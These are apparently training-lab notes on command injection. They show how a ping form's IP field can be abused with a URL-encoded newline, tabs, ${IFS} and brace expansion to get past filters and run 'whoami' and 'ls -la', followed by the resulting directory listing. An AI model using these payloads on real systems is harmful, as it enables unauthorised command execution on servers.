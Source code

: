 # Bypassing Space Filters

## Bypass Blacklisted Operators

The new-line character is usually not blacklisted, as it may be needed in the payload itself.

ip=127.0.0.1%0a+whoami

## Bypass Blacklisted Spaces

Using Tabs

Tabs : %09
127.0.0.1%0a%09

Using $IFS
($IFS) Linux Environment Variable may also work since its default value is a space and a tab

127.0.0.1%0a${IFS}

Using Brace Expansion
127.0.0.1%0a{ls,-la}

To discover more space filter bypasses, check out :
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space


127.0.0.1%0a{ls,-la}index.php

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.038 ms


127.0.0.1%0a{ls,-la}
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.038/0.038/0.038/0.000 ms
total 16
drwxr-xr-x 1 www-data www-data 4096 Jul 16  2021 .
drwxr-xr-x 1 www-data www-data 4096 Aug 19  2020 ..
-rw-r--r-- 1 www-data www-data 1613 Jul 16  2021 index.php
-rw-r--r-- 1 www-data www-data 1256 Jul 12  2021 style.css